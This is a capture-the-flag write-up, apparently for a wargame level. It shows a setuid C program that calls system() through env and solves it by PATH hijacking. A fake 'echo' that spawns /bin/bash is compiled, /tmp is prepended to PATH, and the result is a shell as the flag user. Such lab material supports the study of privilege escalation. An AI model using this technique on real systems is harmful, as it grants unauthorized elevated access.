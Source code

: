 # level01

## Challenge info
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

```
int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

## Solution

The code has a vulnerability in the line (env variables "injection")</br>
```
system("(...) echo and now what?")
```

if we create a auxiliar program named echo that spawns a shell and place it into the PATH variable (before everything else that's there), we call the fake echo program, and spawn a shell under the euid of the program (flag01 user).

## auxiliar program
```
#include <stdio.h>
#include <stdlib.h>

void main(){
    system("/bin/bash");
}
```

compile it
```
gcc echo.c -o echo
```

export to PATH
```
export PATH="/tmp/:$PATH"
```

Now excute 
```
/home/flag01/flag01
getflag
```

## flag 
```
You have successfully executed getflag on a target account
```
